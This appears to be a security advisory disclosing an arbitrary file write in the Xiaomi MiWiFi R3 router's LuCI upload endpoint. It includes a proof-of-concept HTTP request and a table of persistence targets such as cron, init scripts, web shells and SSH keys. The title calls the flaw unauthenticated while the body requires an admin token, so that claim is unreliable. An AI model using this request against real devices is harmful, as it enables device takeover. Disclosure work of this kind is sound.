


# Arbitrary File Write via Unauthenticated Upload Target Parameter in Xiaomi MiWiFi R3

## Summary

An arbitrary file write vulnerability exists in the Xiaomi MiWiFi R3 router running firmware version 2.26.41. The `upload()` function in the LuCI web controller `xqdatacenter.lua` accepts a user-supplied `target` parameter that specifies the destination path for uploaded files. This parameter is passed directly to `fs.mkdir()` and `fs.rename()` without any path validation, allowing an authenticated attacker to write arbitrary files to any location on the filesystem, leading to Remote Code Execution (RCE).

## Affected Product

- **Vendor**: Xiaomi
- **Product**: MiWiFi R3
- **Firmware Version**: 2.26.41 (Build 63453)
- **Architecture**: MIPS32 Little-Endian (MediaTek MT7620A)
- **Component**: LuCI Web Framework - `luci.controller.api.xqdatacenter`


### Vulnerable Code

**File**: `usr/lib/lua/luci/controller/api/xqdatacenter.lua`

The upload endpoint is registered at line 30-34:

```lua
entry({"api", "xqdatacenter", "upload"}, call("upload"), _(""), 304, 16)
```

The `upload()` function (lines 274-374) processes file uploads with the following flow:

1. A file handler writes the uploaded content to `/userdisk/upload.tmp`
2. The `target` parameter is read from user input via `http.formvalue("target")` with **no validation**
3. `fs.mkdir(target, true)` recursively creates the attacker-specified directory
4. `fs.rename("/userdisk/upload.tmp", target .. filename)` moves the file to the attacker-specified path

There is no path whitelist, no `../` traversal check, no path normalization, and no symlink validation on the `target` parameter.

Notably, the `download()` function in the same file **does** implement a path whitelist (restricting to `/userdisk/data/`, `/extdisks/`, etc.), but this protection is entirely absent from `upload()`.

### Attack Endpoint

```
POST /cgi-bin/luci/;stok=<TOKEN>/api/xqdatacenter/upload
```

## Proof of Concept

### Environment

- QEMU system-mode emulation (`qemu-system-mipsel -M malta`)
- Firmware root filesystem mounted via 9P virtfs
- `uhttpd` web server running inside chroot

### HTTP Request

```http
POST /cgi-bin/luci/;stok=<ADMIN_TOKEN>/api/xqdatacenter/upload HTTP/1.1
Host: localhost
Content-Type: multipart/form-data; boundary=----POCBoundary1234

------POCBoundary1234
Content-Disposition: form-data; name="target"

/tmp/pwned/
------POCBoundary1234
Content-Disposition: form-data; name="file"; filename="poc.txt"
Content-Type: text/plain

VULN-15-PROOF
------POCBoundary1234--
```

### Response




### Verification




The attacker-controlled `target=/tmp/pwned/` was used without validation to create the directory and place the uploaded file.

### Exploitation Scenarios

| Target Path | Impact |
|-------------|--------|
| `/etc/crontabs/` | Persistent RCE via cron job |
| `/etc/init.d/` | Persistent RCE via startup script |
| `/www/` | Web shell deployment |
| `/etc/config/` | Router configuration hijacking |
| `/root/.ssh/` | SSH backdoor via authorized_keys |

## Impact

An authenticated attacker can write arbitrary files anywhere on the router's filesystem. Since the web server runs as root, this allows:

- **Remote Code Execution** via cron jobs, init scripts, or web shells
- **Configuration Tampering** of DNS, firewall, and wireless settings
- **Persistent Backdoor** installation surviving reboots
- **Full Device Compromise**


